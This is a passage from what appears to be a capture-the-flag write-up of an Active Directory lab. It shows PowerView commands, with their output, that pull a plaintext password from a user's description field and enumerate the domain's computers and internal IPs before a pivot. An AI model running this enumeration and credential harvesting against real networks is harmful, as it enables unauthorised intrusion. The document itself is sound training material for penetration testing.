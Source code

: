 `923a` was a domain admin, and `BTables` was another user. Using `Get-DomainUser`shows credentials for `BTables`:

```
samaccountname        : BTables
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 5/9/2022 2:48:46 PM
instancetype          : 4
usncreated            : 12628
objectguid            : 8e5db1d3-d28c-4aa1-b49d-f5f8216959fe
sn                    : BTables
info                  : Password set to ++FileServerLogon12345++
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=fulcrum,DC=local
dscorepropagationdata : 1/1/1601 12:00:00 AM
givenname             : BTables
c                     : UK
lastlogon             : 5/9/2022 7:48:46 AM
streetaddress         : unknown
badpwdcount           : 0
cn                    : BTables
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
whencreated           : 5/8/2022 7:02:49 AM
primarygroupid        : 513
pwdlastset            : 5/8/2022 12:02:49 AM
usnchanged            : 16404
lastlogoff            : 12/31/1600 4:00:00 PM
postalcode            : 12345
```

`++FileServerLogon12345++` was the password. However, this user was not present on my current machine.

### Network Enum --> Pivot to File

I enumerated all computer objects within this network, which revealed 2 more.

```
C:\users\webuser> Get-NetComputer -Credential $cred | select samaccountname,
operatingsystem

samaccountname operatingsystem
-------------- ---------------
DC$            Windows Server 2019 Standard
FILE$          Windows Server 2019 Standard
```

I used `ping` to see their IPs:

```
C:\users\webuser> ping -4 -n 1 DC

Pinging DC [192.168.122.130] with 32 bytes of data:

C:\users\webuser> ping -4 -n 1 FILE

Pinging FILE.local [192.168.122.132] with 32 bytes of data:
```

